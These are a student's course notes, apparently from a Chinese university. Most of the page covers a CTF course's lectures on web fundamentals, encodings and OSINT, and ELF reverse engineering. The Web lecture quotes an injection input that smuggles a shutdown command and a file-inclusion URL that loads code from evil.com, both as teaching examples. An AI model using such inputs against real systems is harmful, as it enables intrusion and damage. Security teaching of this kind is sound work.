



Xestray的笔记本¶
约 96 个字 1 行代码
花了差不多一整天时间捣鼓出来的网站，希望能用来记录一些学习过程中的笔记以及其他一些有趣的东西。
感谢
感谢shrike505 在建站过程中提供的巨大帮助
Project layout¶
更新记录¶
2024¶
Computer Science ↵
约 79 个字
Note
This is a note.
Tip
This is a tip.
Answer
This is an answer.
Warning
This is a warning.
Question
This is a question. 42.
Info
This is an info.
Discussion
This is a discussion.
Danger
This is a danger.
Example title
This is an example.
Abstract title
This is an abstract.
Summary title
This is a summary.
Quote title
This is a quote.
Page
This is a page.
Success
This is a success.
asa
计算机逻辑设计基础¶
约 39 个字
任课教师：董亚波
成绩组成
- 实验 30%
- 小测 20%
- project 10%
- 期末 40%
平时事情真是多
Ended: Computer Science
数理 ↵
数学分析（甲）Ⅱ(H)¶
约 65 个字
任课教师：阮火军
成绩组成
- 作业+点名 20%
- 小测 20%
- 期末 60%
由于一直以来做的都是纸质笔记，因而在这里只放期末补天时做的一些重点知识整理。
线性代数Ⅱ(H)¶
约 48 个字
任课教师：吴志祥
由于一直以来做的都是纸质笔记，因而在这里只放期末补天时做的一些重点知识整理。
普通物理学Ⅰ(H)¶
约 13 个字
任课教师：路欣
史
Ended: 数理
CTF ↵
安全攻防实践¶
约 95 个字
拼搏14天，我要成为CTF大神。(?
分数组成
- 考勤 5%
- 基础周 55%
- lab0 5%
- 5个方向的lab1 10% \(\times\) 5
- 专题周 40%
- 5个方向 5选2 每个方向2个lab，每个占10%
- 少量bonus：考勤 / 基础周 / 专题周 三个部分相互独立，不互相溢出
Lectures¶
Lec1-Intro¶
Lec2-Web¶
Lec3-Misc¶
Lec4-Rev¶
Lec5-Pwn¶
基础周 ↵
Lec1-CTF入门¶
约 24 个字
授课：常瑞、王鹤翔(TonyCrane)
如何学习CTF¶
Lec2-Web¶
约 3996 个字 53 行代码 预计阅读时间 17 分钟
授课：叶耀阳
Web应用架构：客户端+服务端¶
桌面应用和Web应用在架构上有显著的区别。桌面应用通常是在本地运行的独立程序，而Web应用则需要依赖客户端和服务端的协作。
- 客户端：你的浏览器
- 可视化：图形、图片、布局…… HTML + CSS
- 人机交互逻辑：按钮点击，登录，发送请求……JS
- 缓存、Cookie
- 安全：不能将私密的、不该获取的信息传出去（比如 Cookie），不能为所欲为（比如注销其他网站的账号）
- 服务端：某台或很多台服务器
- 认证与鉴权：如何证明你是你
- Authentication（认证）：知道你是谁
- Authorization（鉴权）：确认你有何权限
- 处理请求：用户需要做什么？将结果返回客户端
- 服务器也可以有不同分工：前端后端、数据库……
- 安全：用户不能获得不该获取的信息（比如 flag），不能为所欲为（比如任意代码执行 RCE）
- 认证与鉴权：如何证明你是你
网络：数据交换¶
数据包的传输与路由¶
想象一下，数据包就像是一封封信件，而网络则是遍布全球的邮政系统。当我们在电脑上点击发送邮件时，数据被切割成一个个小包裹，即数据包。这些数据包随后被送往最近的邮局，也就是路由器。路由器就像邮局的分拣员，根据包裹上的地址（即IP地址），决定将它们送往下一个邮局，直至最终到达目的地。这个过程中，每个路由器都会查看数据包的目的地，并选择最佳路径，确保数据包能够快速、准确地到达。
域名与DNS系统¶
在网络的世界里，IP地址就像是门牌号码，虽然精确，但记忆起来却颇为困难。这时，域名系统（DNS）就如同一个智能的电话簿，将复杂的IP地址转化为易于记忆的域名，比如www.example.com。当你在浏览器中输入一个域名时，DNS服务器会像查电话簿一样，找到对应的IP地址，并指引你的请求到达正确的服务器。
OSI模型和TCP/IP模型¶
正如我们写代码层层封装，计算机网络的总体架构也是分层的。这样每个层各司其职，下层上上层的基础设施，逐渐构建复杂的功能。
- OSI 七层模型

- TCP/IP 四层模型：广泛使用

TCP/IP 协议详解¶
- IP: 网络层 = 主机到主机，数据包寻址（快递公司）
-
TCP: 传输层 = 应用到应用，或者说端到端（菜鸟驿站）
无边界的字节流，类比电报报文，电报的格式是应用层协议该做的，电报本身只发字母数字
HTTP 协议详解（Hyper Text Transfer Protocol）¶
- 应用层，基于TCP
- 特点：无状态（需要应用层自行维护），纯文本
- 需要维持状态（比如：用户已登录）怎么办？Cookie
- 格式

DNS记录¶
- A记录：指向 IPv4 地址
- AAAA记录：指向 IPv6 地址
- CNAME记录：别名，指向另一个域名
- 其他的还有 TXT（纯文本），NS（Name Server），MX，SOA...
常用命令¶
\(\texttt{whois}\)¶
- 查询域名的注册信息：持有人等
\(\texttt{nslookup}\)¶
- 查看DNS工作记录
\(\texttt{tracert/traceroute}\)¶
- 跟着那个每一条所需时间
- 原理：ICMP报文
代理 PROXY¶
正向代理¶
- VPN：Virtual Private Network
- 使其看起来就像在内网
反向代理¶
- 隐藏真实 IP，部署 CDN，部署防火墙
- 内网穿透：内网穿透到外面来
后端：业务逻辑¶
后端是Web应用的核心，它负责处理业务逻辑、数据存储和安全。在这一部分，我们会介绍常见的后端技术栈，并重点讨论后端安全，尤其是如何防范和应对CTF（Capture the Flag）中常见的逻辑漏洞攻击。
- 常见后端技术栈（如Node.js、PHP、Python、Ruby、Go、Rust 等）
- 后端安全：永远不要相信用户的数据，一切前端的过滤都等于没有过滤！
-
CTF: 通过逻辑漏洞等欺骗后端
逻辑漏洞：
if money!=0 then money-=price.What ifmoney=-1?没接触安全领域前关于安全的错觉：
- 这么蠢的洞也有人写？
- 这么写怎么可能有洞？
- 这么多人用怎么可能有洞？
事实：连SSH今年都还能有高危漏洞 CVE-2024-6387
注入：混淆了数据和代码。
例如printf("%d", _____)
正常输入：1 2 3
恶意输入：1); system("shutdown -s -t 0"); //
就变成了printf("%d", 1); system("shutdown -s -t 0"); //)
PHP¶
PHP是最早的Web开发语言之一，它在Web开发历史上占有重要地位。
早年只有静态网页，而后来有了jsp和php
- 环境配置：PHP Study
- 变量定义
- 短标签
<?=$a?>
例子
<!DOCTYPE html>
<html>
<head>
<title>PHP 示例</title>
</head>
<body>
<h1>欢迎使用 PHP</h1>
<?php
// 定义变量
$name = "John";
$age = 25;
// 输出变量
echo "<p>你好，我的名字是 $name，我今年 $age 岁。</p>";
// 条件语句
if ($age >= 18) {
echo "<p>我已成年。</p>";
} else {
echo "<p>我未成年。</p>";
}
// 数组
$fruits = array("apple", "banana", "cherry");
echo "<p>我喜欢的水果有：</p>";
echo "<ul>";
foreach ($fruits as $fruit) {
echo "<li>$fruit</li>";
}
echo "</ul>";
// HTML 短标签
?>
<p>这是使用 HTML 短标签的示例：</p>
<?= "当前时间是：" . date("Y-m-d H:i:s") ?>
<?php
$fr = "pear";
$pear = 114;
$lingo = 514;
echo $$fr;
?>
</body>
</html>
获取 GET 参数与 Cookie 并查询数据库对应的用户：
例子
<?php
// 数据库连接信息
$servername = "localhost";
$username = "root";
$password = "";
$dbname = "test_db";
// 创建数据库连接
$conn = new mysqli($servername, $username, $password, $dbname);
// 检查连接是否成功
if ($conn->connect_error) {
die("连接失败: " . $conn->connect_error);
}
// 获取GET参数
$userId = isset($_GET['user_id']) ? intval($_GET['user_id']) : 0;
// 获取Cookie
$sessionId = isset($_COOKIE['session_id']) ? $_COOKIE['session_id'] : '';
// 查询数据库
if ($userId > 0) {
$sql = "SELECT * FROM users WHERE id = $userId";
$result = $conn->query($sql);
if ($result->num_rows > 0) {
$user = $result->fetch_assoc();
echo "<p>用户信息: </p>";
echo "<p>ID: " . $user['id'] . "</p>";
echo "<p>姓名: " . $user['name'] . "</p>";
echo "<p>邮箱: " . $user['email'] . "</p>";
} else {
echo "<p>没有找到对应的用户。</p>";
}
} else {
echo "<p>无效的用户ID。</p>";
}
// 关闭数据库连接
$conn->close();
?>
SQL¶
- 发音 \(\texttt{S-Q-L}\) 或 \(\texttt{Sequel}\)
- 结构化查询语言 \(\texttt{Structured Query Language}\)
-
用来做什么？
数据库维护应用的数据，而与数据库交互的接口往往是基于 SQL 语句的
常用操作¶
增 Create
- CREATE TABLE users (...);
- INSERT INTO users VALUES (1, 'hello', 'pwd', true);
删 Delete
- DELETE FROM users WHERE id=1;
改 Update
- UPDATE users SET username='aaa' WHERE id=1;
查 Retrieve/Read
- SELECT version();
- SELECT avg(score) FROM students GROUP BY name;
- SELECT * FROM students;
安全相关话题¶
Cookie 与 Session¶
- Cookie：存储在客户端的小型文本文件，通常用于存储用户的偏好设置、身份验证信息等。
- 示例：用户登录后，服务器发送一个包含用户ID的Cookie到客户端，客户端在后续请求中自动包含该Cookie，以便服务器识别用户。
- Cookie劫持：攻击者通过XSS攻击或其他手段获取用户的Cookie，从而冒充用户身份。
- Session：存储在服务器端的临时数据存储区域，通常用于存储用户的会话状态信息。
- 示例：用户登录后，服务器创建一个Session，并将Session ID通过Cookie发送给客户端。客户端在后续请求中包含该Session ID，服务器根据Session ID查找对应的Session数据。
- 如果服务器被攻破，Session中就可能有一些敏感信息。
逻辑漏洞¶
验证不充分、想当然的写法、条件竞争、未发现的旁门左道...
- 程序员的傲慢可能会让他认为a==1&&a==2 一定是 false 但...

任意文件读与任意代码执行¶
- 例如一个Web应用允许用户上传头像，但未对上传的文件进行严格的类型和内容检查。攻击者上传一个包含恶意代码的文件，并通过文件包含漏洞执行该代码，从而控制服务器。
- CTF竞赛中，能读服务器上
/flag则读，否则就暗示我们需要 RCE (不然连 flag 在哪个文件都不知道).
文件包含¶
例如一个Web应用允许用户通过URL参数指定要包含的文件，如index.php?page=about。攻击者可以通过构造恶意URL，如index.php?page=http://evil.com/malicious.php，包含远程恶意文件，从而执行恶意代码。
越权¶
例如一个Web应用允许用户查看自己的订单信息，但未正确验证用户的身份。攻击者可以通过篡改URL参数，如order.php?id=123，查看其他用户的订单信息。
- 永远不要相信用户的数据！前端代码也许永远不会访问其他用户的数据，但这不代表恶意攻击者就不会。
前端：可视化与操作逻辑¶
前端开发主要关注用户界面的设计和用户交互。在这一部分，我们将学习HTML、CSS和JavaScript的基础知识，以及前端安全的重要性和常见的防护措施。同时，我们会通过经典案例分析前端漏洞的利用方法和防护策略。
HTML / CSS / JS基础¶
HTML¶
- 格式：各个标签嵌套的层级结构，每个标签基本上就对应页面上的一个元素
Html例子
<!DOCTYPE html>
<html lang="zh-CN">
<head>
<meta charset="UTF-8">
<title>HTML 和 CSS 示例</title>
<link rel="stylesheet" href="styles.css">
</head>
<body>
<header>
<h1>欢迎来到我的网站</h1>
<nav>
<ul>
<li><a href="#home">首页</a></li>
<li><a href="#about">关于我们</a></li>
<li><a href="#contact">联系我们</a></li>
</ul>
</nav>
</header>
<main>
<section id="home">
<h2>首页</h2>
<p class="intro">这是我们的首页，欢迎您的到来！</p>
</section>
<section id="about">
<h2>关于我们</h2>
<p class="intro">我们是一家专业的Web开发公司。</p>
</section>
<section id="contact">
<h2>联系我们</h2>
<p class="intro">如果您有任何问题，请随时联系我们。</p>
<form>
<label for="name">姓名:</label>
<input type="text" id="name" name="name"><br>
<label for="email">邮箱:</label>
<input type="email" id="email" name="email"><br>
<input type="submit" value="提交">
</form>
</section>
</main>
<footer>
<p>© 2023 我的网站</p>
</footer>
</body>
</html>
CSS¶
- 用途：元素宽度、外部间隔、内部边距、字体颜色……
- 选择器语法：选择你要把这些属性应用给哪些元素
- 元素选择器
body - 类选择器
.my-class - ID选择器
#myid
- 元素选择器
Css例子
/* 基本样式 */
body {
font-family: Arial, sans-serif;
margin: 0;
padding: 0;
background-color: #f4f4f4;
}
header {
background-color: #333;
color: #fff;
padding: 10px 0;
text-align: center;
}
nav ul {
list-style: none;
padding: 0;
}
nav ul li {
display: inline;
margin: 0 10px;
}
nav ul li a {
color: #fff;
text-decoration: none;
}
main {
padding: 20px;
}
section {
margin-bottom: 20px;
}
.intro {
font-style: italic;
color: #555;
}
footer {
background-color: #333;
color: #fff;
text-align: center;
padding: 10px 0;
position: fixed;
width: 100%;
bottom: 0;
}
/* 表单样式 */
form {
margin-top: 20px;
}
form label {
display: block;
margin-bottom: 5px;
}
form input[type="text"],
form input[type="email"] {
width: 100%;
padding: 8px;
margin-bottom: 10px;
border: 1px solid #ccc;
border-radius: 4px;
}
form input[type="submit"] {
background-color: #333;
color: #fff;
padding: 10px 20px;
border: none;
border-radius: 4px;
cursor: pointer;
}
form input[type="submit"]:hover {
background-color: #555;
}
JS(JavaScript)¶
- 包裹在
<script>中 - 可以做什么：嵌入网页中，让网页具备高级的交互逻辑
- 现代用途更广：各种框架，用于后端
Javascript例子
<!DOCTYPE html>
<html lang="zh-CN">
<head>
<meta charset="UTF-8">
<title>现代Web开发示例</title>
<style>
/* CSS 样式 */
body {
font-family: Arial, sans-serif;
margin: 0;
padding: 0;
background-color: #f4f4f4;
}
header {
background-color: #333;
color: #fff;
padding: 10px 0;
text-align: center;
}
nav ul {
list-style: none;
padding: 0;
}
nav ul li {
display: inline;
margin: 0 10px;
}
nav ul li a {
color: #fff;
text-decoration: none;
}
main {
padding: 20px;
}
section {
margin-bottom: 20px;
}
.intro {
font-style: italic;
color: #555;
}
footer {
background-color: #333;
color: #fff;
text-align: center;
padding: 10px 0;
position: fixed;
width: 100%;
bottom: 0;
}
form {
margin-top: 20px;
}
form label {
display: block;
margin-bottom: 5px;
}
form input[type="text"],
form input[type="email"] {
width: 100%;
padding: 8px;
margin-bottom: 10px;
border: 1px solid #ccc;
border-radius: 4px;
}
form input[type="submit"] {
background-color: #333;
color: #fff;
padding: 10px 20px;
border: none;
border-radius: 4px;
cursor: pointer;
}
form input[type="submit"]:hover {
background-color: #555;
}
</style>
<script>
// JavaScript 代码
function greetUser() {
var name = prompt("请输入您的名字:");
if (name) {
alert("你好, " + name + "!");
} else {
alert("你好, 访客!");
}
}
function validateForm() {
var name = document.getElementById("name").value;
var email = document.getElementById("email").value;
if (name === "" || email === "") {
alert("请填写所有字段！");
return false;
}
return true;
}
</script>
</head>
<body>
<header>
<h1>欢迎来到我的网站</h1>
<nav>
<ul>
<li><a href="#home">首页</a></li>
<li><a href="#about">关于我们</a></li>
<li><a href="#contact">联系我们</a></li>
</ul>
</nav>
</header>
<main>
<section id="home">
<h2>首页</h2>
<p class="intro">这是我们的首页，欢迎您的到来！</p>
<button onclick="greetUser()">打招呼</button>
</section>
<section id="about">
<h2>关于我们</h2>
<p class="intro">我们是一家专业的Web开发公司。</p>
</section>
<section id="contact">
<h2>联系我们</h2>
<p class="intro">如果您有任何问题，请随时联系我们。</p>
<form onsubmit="return validateForm()">
<label for="name">姓名:</label>
<input type="text" id="name" name="name"><br>
<label for="email">邮箱:</label>
<input type="email" id="email" name="email"><br>
<input type="submit" value="提交">
</form>
</section>
</main>
<footer>
<p>© 2023 我的网站</p>
</footer>
</body>
</html>
编码基础：JavaScript 与 TypeScript¶
JavaScript¶
JavaScript 简介与历史
JavaScript（简称JS）是由Netscape公司的Brendan Eich在1995年十天内开发出来的一种脚本语言。最初设计用于浏览器端的动态网页内容生成，JavaScript迅速成为Web开发的核心技术之一，与HTML和CSS并列为前端开发的三大支柱。
- 诞生背景：JavaScript诞生于Web 1.0时代，最初被称为Mocha，后改名为LiveScript，最后才成为JavaScript。
- 发展历程：从最初的客户端脚本语言，JavaScript逐步演变成一门强大的编程语言，现今不仅用于浏览器端，还在服务器端广泛应用。
JavaScript的基本语法和特点
JavaScript语法灵活，具有动态类型、函数式编程和原型继承等特点。
-
变量声明：使用
var、let和const声明变量。 -
函数定义：
-
条件判断：
-
循环：
-
事件处理：
JavaScript灵活性很强，但这也带来了某些潜在问题，比如类型不安全、代码维护性差等。
TypeScript¶
TypeScript的特点和优点
TypeScript（简称TS）是由微软开发的一种开源编程语言，是JavaScript的超集，增加了静态类型和类等特性。
-
静态类型：通过类型检查减少运行时错误，提高代码的可维护性。
-
类和接口：支持面向对象编程，增强代码结构性。
-
模块化：支持模块化编程，提高代码复用性和组织性。
TypeScript在现代Web开发中的应用
TypeScript在大型项目中尤为受欢迎，例如Angular、Vue 3和React等前端框架都支持或推荐使用TypeScript。TypeScript通过类型检查和IDE支持（如VS Code），大大提高了开发效率和代码质量。
Node.js简介¶
Node.js的起源和发展
Node.js是由Ryan Dahl在2009年开发的一个开源、跨平台的JavaScript运行时环境，基于Chrome的V8引擎构建。Node.js的出现使得JavaScript可以用于服务器端开发。
- 起源：Node.js诞生于对高性能、非阻塞I/O模型的需求。
- 发展：Node.js迅速发展，成为构建高性能、可扩展网络应用的首选平台。
Node.js的基本使用方法与应用场景
Node.js通过事件驱动、非阻塞I/O模型，使其在处理大量并发请求时具有显著优势。
-
基本使用：
const http = require('http'); const hostname = '127.0.0.1'; const port = 3000; const server = http.createServer((req, res) => { res.statusCode = 200; res.setHeader('Content-Type', 'text/plain'); res.end('Hello, World!\\n'); }); server.listen(port, hostname, () => { console.log(`Server running at <http://$>{hostname}:${port}/`); }); -
应用场景：Node.js常用于构建实时应用（如聊天应用）、API服务、微服务架构等。
相关安全话题¶
- XSS（跨站脚本攻击）
- CSRF（跨站请求伪造）与 SSRF（服务器端请求伪造）
- 跨域
尾声¶
经典老番：地址栏输入网址并访问后发生了什么
- DNS解析（域名解析）：
- 浏览器会首先检查本地缓存中是否有该网址对应的IP地址。
- 如果没有，它会向DNS服务器发送请求，查询该网址的IP地址。
- DNS服务器返回该网址对应的IP地址给浏览器。
- 建立TCP连接：
- 浏览器使用前面得到的IP地址，通过TCP/IP协议与目标服务器建立连接。
- 这包括三次握手过程：客户端发送SYN包，服务器返回SYN-ACK包，客户端再发送ACK包确认连接。
- 发送HTTP请求：
- 建立连接后，浏览器会发送一个HTTP请求到服务器。这个请求包含了请求方法（如GET或POST）、请求的资源路径以及一些头信息（如浏览器类型、可接受的文件类型等）。
- 服务器处理请求并返回响应：
- 服务器接收到请求后，会处理该请求，查找请求的资源（如HTML文件、图片、视频等）。
- 服务器会将找到的资源以及一些头信息（如内容类型、内容长度等）打包成HTTP响应，返回给浏览器。
- 浏览器接收响应并渲染页面：
- 浏览器接收到服务器返回的HTTP响应后，会解析响应的头信息和内容。
- 如果内容是HTML文件，浏览器会解析HTML并根据其中的指令（如加载CSS文件、执行JavaScript脚本等）进行渲染。
- 浏览器会逐步构建DOM树和CSSOM树，并根据它们生成渲染树，最后将内容绘制到屏幕上。
- 加载资源：
- 如果HTML文件中包含了其他资源（如图片、CSS、JavaScript等），浏览器会根据需要发送额外的HTTP请求来加载这些资源。
- 这些资源加载完成后，浏览器会继续渲染页面，更新显示内容。
整个过程通常在短时间内完成，以确保用户能够快速看到网页内容。
Lec3-Misc¶
约 1802 个字 预计阅读时间 7 分钟
授课：郑俊达(Gooduck)
什么是Misc¶
- Miscellaneous，即杂项，包含了一些不属于其他类别的题目
- MISC = ALL - PWN - WEB - CRYPTO- REVERSE
Misc题型¶
- 隐写、取证、OSINT（信息搜集）、PPC（编程类） ——传统misc题
- 游戏类题目、工具运用类题目
- 编解码、古典密码 ——不那么crypto的crypto
- 网络解谜、网站代码审计 ——不那么web的web
- 代码审计、沙箱逃逸 ——不那么binary的binary
- Blockchain、IoT、AI ——新兴类别题目
如何学习misc？¶
- 用于尝试学习新东西，许多题目需要快速入门/快速上手新工具
- 思维活跃，大胆尝试
- 一定的编程能力
- 熟练掌握Python或其他一门语言
- 多做题
基础编解码知识¶
三种常见的01串转换方式
常用编解码工具：CyberChef /（TonyCrane ver.）
字符编码¶
- 字符编码：人类理解的字符 $ \iff $ 计算机理解的01串 之间的映射
- 出现乱码：用一种字符编码规则解读另一种字符编码的01串
常见的字符编码：
- ASCII：一共 128 个项，即每个字符可以用一个7位的01串表示（或一字节）
- 00-1F：制字符；20-7E：可见字符；7F：控制字符（DEL）
- Latin-1（ISO-8859-1）：扩展了 ASCII，一共 256 个项
- 80-9F：控制字符；A0-FF：可见字符
- 特点：任何字节流都可以用其解码
- 利用Unicode 字符集的一系列编码
- UTF-8 / UTF-16 / UTF-32 / UCS
- 中国国标字符集系列编码8
- GB 2312 / GBK / GB 18030-202
Unicode字符集与UTF编码¶
参考：TonyCrane的笔记
以平面划分，有17个平面，每个平面65536个码位（2字节）
- 通过码位可以表示为U+0000 ~ U+10FFFF
- 可容纳111w+个字符，现有14w+字符（超过一半为CJK字符）
UCS（Universal Character Set）：Unicode字符集的标准名称
- UCS-2：2字节表示码位；UCS-4：4字节表示码位
UTF（Unicode Transformation Format）：Unicode字符集的编码方式
- UTF-8：变长编码，1~4字节表示一个字符，兼容ASCII
- 1字节：0xxxxxxx；
- 2字节：110xxxxx 10xxxxxx；
- 3字节：1110xxxx 10xxxxxx 10xxxxxx；
- 4字节：11110xxx 10xxxxxx 10xxxxxx 10xxxxxx
- ASCII字符：1字节；常用字符：2字节；其他字符：3字节或4字节
- UTF-16：2字节或4字节表示一个字符，不兼容ASCII
- BMP（基本多文种平面）：2字节表示；SMP（补充多文种平面）：4字节表示
出现乱码原因¶
几个字符集不兼容的部分互相编解码
- 用 GBK 解码 UTF-8 编码的文本
- 用 UTF-8 解码 GBK 编码的文本
- 用 latin-1 解码 UTF-8 编码的文本
- 用 latin-1 解码 GBK 编码的文本
- 先用 GBK 解码 UTF-8 编码的文本，再用 UTF-8 解码前面的结果
- 先用 UTF-8 解码 GBK 编码的文本，再用 GBK 解码前面的结果

摩尔斯电码(Morse Code)¶
字符 $ \iff $ 字符
- 摩尔斯电码：一种用点（·）和划（-）（时间长短）表示字符
- 点·：1单位；划-：3单位
- 点划之间间隔：1单位；字符之间间隔：3单位；单词之间间隔：7单位
- 字符集：A-Z、0-9、标点符号等（. : , ; ? = ' / ! - _ " ( ) $ & @ +）
- 表示中文：电码表（一个汉字对应四个数字），数字使用短码发送
Base系列编码¶
01串 $ \iff $ 字符，Base家族的结果都可以转为可见字符
- Base16：16进制编码表示字节流
- Base32：5bit一组（0-31），按照字符表（A-Z、2-7）映射
- 最终长度必须是5的倍数，不足的用=补齐（明显特征）
- Base64：6bit一组（0-63），按照字符表映射
- 标准字符表：A-Z a-z 0-9 + /
- 另有多种常用字符表，如URL安全字符表：A-Z a-z 0-9 - _
- 最终长度必须是4的倍数，不足的用=补齐（1~2个，明显特征）

Base-n系列编码的本质：字节流 \(\rightarrow\) 整数 \(\rightarrow\) n进制 \(\rightarrow\) 系数查表
除了16/32/64进制外，还有一些其他的Base编码：
- Base85：4字节整数 \(\rightarrow\) 85进制 \(\rightarrow\) 5个系数
- 常用字符表：0-9 A-Z a-z ! # $ % & ( ) * + - ; < = > ? @ ^ _ ` { | } ~
- 标准字符表： !-u（ASCII 0x21-0x75）
- 作为大整数转换进制：
- Base62：0-9 A-Z a-z（比Base64少了+ /）
- Base58：0-9 A-Z a-z（比Base62少了不易区分的0 O I l）
- Base56：比Base58少了1和o
- Base36：0-9 A-Z（比Base62少了a-z）
一些其他编码¶
其他常用编码
- UUencode、XXencode：二进制文件编码为可见字符
- QR Code 二维码
- 条形码
- 盲文编码
常用工具
- CyberChef：https://gchq.github.io/CyberChef/
- Base系列爆破：https://github.com/mufeedvh/basecrack/
- DenCode：https://dencode.com/
- Ciphey：https://github.com/Ciphey/Ciphey
OSINT基础¶
什么是OSINT¶
Open Source INTelligence：开源网络情报
- 通过完全公开的信息进行合理的推理，获取情报
一般在misc题目中出现即反之信息搜集，有几种情况：
- 构造了一个全新的虚拟身份，搜集得到出题人准备好的信息
- 根据图片、文档等附件泄漏的信息进行推理（主要）
- 包括根据图片内容推理找到拍摄位置、当时环境等信息
信息搜集/查询基础¶
数字信息搜集工具：https://github.com/ffffffff0x/Digital-Privacy
用户名批量查询：
- sherlock：https://github.com/sherlock-project/sherlock
- namechk：https://namechk.com/
Wayback Machine ：web.archive.org
- 查找网页的历史快照（以及可以创建快照）
- 有时可以找到出题人特意保存快照后删除的内容
文件信息泄露¶
各种文档的元信息（metadata）可能包含作者、修改时间等信息
- 图片的EXIF信息，可通过exiftool查看
- 一般以xml形式存储，可以直接通过二进制抹除，或者通过操作系统
工程文件夹泄漏信息
- Visual Studio的各种配置文件.vs文件夹中信息
- .vscode 文件夹中的配置文件
- .git 文件夹，泄漏全部修改历史、提交信息、提交者等
文件夹路径信息泄漏
- .DS_Store 文件，macOS 下的文件夹布局信息
- 以上提到的各种工程配置文件等也会泄漏（比如vs的pdb调试信息）
- markdown 文件图片路径（本地路径/图床用户/自建图床网站）
照片信息分析¶
图片搜索¶
常用搜索引擎：
- 百度识图搜索：中文互联网图片搜索结果
- Google 图片搜索：用来搜索外国范围的图片
- Bing 图片搜索：和Google差不多，都可以参考
- Yandex 图片搜索：
- 搜索相似图片
- 搜索风景时更常用
- TinEye：搜索完全相同的图片（找来源）
地点线索搜集¶
注意图片中的文字、牌匾、标志性建筑等，可用来作为关键词搜索
- 利用搜索引擎等找到大概位置后，可以用百度全景地图/谷歌全景地图进行确认/查找附近线索
如果图片中关键信息较少，可以优先考虑使用搜索引擎识图（Google识图等）
- 搜索确认得到相关的地名/地点信息后，可以进一步搜索相关信息
环境信息分析¶
- 几何学透视简单分析照片拍摄者高度
- 太阳角度、阴影长度等太阳相关信息
- 时间 \(\iff\) 位置相互估计
- suncalc.org
- sunearthtools.com
- 天气信息、云层信息等
- 飞机航班信息
- 估计方向、位置、时间等
- flightradar24.com
- flightaware.com
- adsbexchange.com
- 风景信息 \(\rightarrow\) Yandex 图片搜索
Lec4-Reverse¶
约 1281 个字 34 行代码 预计阅读时间 6 分钟
授课：马麟
程序？可执行文件¶
为什么计算机可以执行给定的程序呢
因为任何程序都将最终转化为「指令」的形式由计算机执行

前端与后端（Compile frontend & backend）¶

Compiled V.S. Interpreted¶
-
编译执行
上述通过编译器 (compiler) 将代码转化为机器指令格式的程序，进而执行
-
解释执行
通过解释器 (interpreter) 将代码转化为 VM 格式的程序（如字节码），进而在 VM 上执行


用户态可执行文件¶
- Windows：PE/PE32+（Port Executable）
- macOS：Mach-O（Mach Object）
- Linux：ELF（Executable and Linkable Format）
可通过命令行工具静态检视 ELF 文件
ELF (Executable and Linkable Format) is a common standard file format for "executables" in Linux (or Unix-like) systems
file：查看文件类型readelf：查看 ELF 文件的结构objdump：反汇编
ELF 的编译、链接¶
- 编译（汇编）：从源代码到目标文件
- 链接：从目标文件到可执行文件
ELF的编译、链接¶
以简单的hello.c为例
ELF的编译 (预处理)¶
- 头文件包含
- 宏展开与替换
ELF的编译 (编译)¶
- -S: Compile only; do not assemble or link
- -Ox: 优化等级
- -g: 启用调试
- ......
ELF的编译 (编译前端)¶
- 生成 clang AST
- 生成 LLVM IR
- 生成 gcc IR（以及其他细节）
ELF的编译 (编译后端)¶
- 从 LLVM IR 到汇编代码
- 从汇编代码到目标文件 (object file)
- 一步到位
- 从汇编代码到目标文件 (object file) GCC 版本

ELF的链接¶
- 目标文件
hello.o中有多个段 - 目标文件
hello.o还不足以包含程序运行的信息，需要进行链接 - 符号解析与重定位
- "essentially merging"

静态链接与动态链接¶

-
静态链接
将所有的目标文件都链接到一个可执行（ELF）文件中
- 优点：可执行文件独立，不依赖于其他文件，在各种环境中都可执行
- 缺点：通常会使可执行文件大小增加
-
动态链接
所有的目标文件都链接到一个储存在系统中的动态链接库（Dylib/So）中，无需单独储存
- 优点：节省磁盘空间，减少内存占用
-
缺点：依赖于系统中的动态链接库，动态链接库的版本等不同可能会导致兼容性问题；
动态链接的过程中会有额外开销，可能会影响程序的性能，但有一些优化策略
动态链接的PLT与GOT¶
-
PLT: Procedure Linkage Table
动态链接的“跳板”
-
GOT: Global Offset Table
- lazy binding optimization（延迟绑定优化）以及 full-relro 保护
ELF 程序的装载和运行¶
程序到进程¶
- 可执行程序 (Program) 是静态，文件的概念
- 进程 (Process) 是动态、系统运行时的概念
- 进程和线程 (Thread)
ELF程序的生命周期¶
- C/C++程序对应进程的起点并不是main
- 同样地，C/C++程序对应进程的终点也不是main
Example
#include <stdio.h>
#include <stdlib.h>
__attribute__((constructor)) void before_main()
{
printf("Before main\n");
}
__attribute__((destructor)) void after_main()
{
printf("After main\n");
}
int main()
{
printf("During main\n");
}
运行结果如下： 
-
静态链接程序：
